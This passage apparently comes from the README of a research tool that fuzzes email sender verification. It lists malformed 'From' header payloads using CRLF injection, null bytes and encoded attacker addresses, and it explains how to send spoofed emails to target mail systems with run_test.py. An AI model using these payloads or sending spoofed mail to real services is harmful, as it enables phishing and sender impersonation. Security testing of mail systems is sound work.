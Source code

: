 **Generated Test Sample:**

```json
"From :,()<key@ymail.com>(comment),(\r\n)\r\n",
"From: <=?utf-8?RnJvbTp3b3Jkd29yZCgNCik8YXR0YWNrZXJAdG9wLmNvbT4sQWxpY2VAeW1haWwuY29tLHdlYm1hc3RlckBsaXZlLmNvbSxhZG1pbkBpY2xvdWQuY29tLHNlY3VyaXR5QHNvaHUuY29tDQo==?=>\u0000@attack.com",
"From: <=?utf-8?RnJvbTooY29tbQ0KZW50KTxockBtc24uY29tPix3b3Jkd29yZChoaSk8TWlrZUBhbGl5dW4uY29tPix3b3JkPGFkbWluQGhvdG1haWwuY29tPihoaSksd29yZHdvcmR3b3JkKCk8QHFxLmNvbTpAMTYzLmNvbTpzZWN1cml0eUBhbGl5dW4uY29tPihjb21tDQplbnQpDQo==?=>\u0000@attack.com",
"From:Bob@aliyun.com,(),,,word<attacker@foxmail.com>\r\n",
" FrOM: <Oscar@attack.com>\r\nFrom:(comm\r\nent)<@qq.com:@163.com:Alice@foxmail.com>,word<attacker@live.com>,word(comment)<hr@sina.com>(comm\r\nent)\r\n",
" Fromÿ: <Oscar@attack.com>\r\nFrom:key@msn.com\r\n",
" Fromÿ: <Oscar@attack.com>\r\nFrom:(\r\n)<@gmail.com:@b.com:webmaster@live.com>,word(comment)<@qq.com:@163.com:webmaster@126.com>,<@a.com:@b.com:Alice@139.com>(comment)\r\n",
"From :,(\r\n),Mike@china.com,word<key@163.com>(comm\r\nent),\r\n",
"From:()<@a.com:@b.com:security@ymail.com>(comm\r\nent)\r\n",
"From: <Oscar@attack.com>\r\nFrom:(comm\r\nent),key@sohu.com\r\n",
" From:,,(comment),webmaster@sina.cn,(hi)\r\n",
"From: ,<@gmail.com:@b.com:admin@china.com>,(hi)<@gmail.com:@b.com:attacker@msn.com>,(hi),,(),\r\n",
"From: (hi)<Alice@msn.com>(),security@aliyun.com,word(comment)<@a.com:@b.com:Bob@ymail.com>(),word<Bob@outlook.com>(\r\n)\r\n",
" Fromÿ: <Oscar@attack.com>\r\nFrom:,key@139.com,,(hi),,(),\r\n",
...
```

For more test samples, please check this [file](https://github.com/EmailTestTools/EmailTestTools/blob/master/config/fuzz.json).

#### 2. Send spoofing emails with malformed sender address

[run_test.py](./run_test.py) will use the generated samples to test the security verification logic of the target mail system. We also carefully control the message sending rate with intervals over 10 minutes to minimize the impact's target email services.

You can choose **Shared MTA** or **Direct MTA** to send spoofing emails. At the same time, you can also choose **MIME From** or **MAIL From**  header to test.

| Short Form | Long Form | Description                                       |
| ---------- | --------- | ------------------------------------------------- |
| -m         | --mode    | Attack mode ( SMTP: Shared MTA, MTA: Direct MTA). |
| -t         | --target  | The target field to test. (MIME / MAIL )          |

For example, if you want to use Direct MTA to fuzz MIME From header, you can execute:

```bash
python3 run_test.py -m MTA -t MIME
```

By the way, if you want to use Shared MTA , you need to configure  email sending account in `config/account.json` and `config.py`.

#### 3. Analyze and summarize the employed adversarial techniques
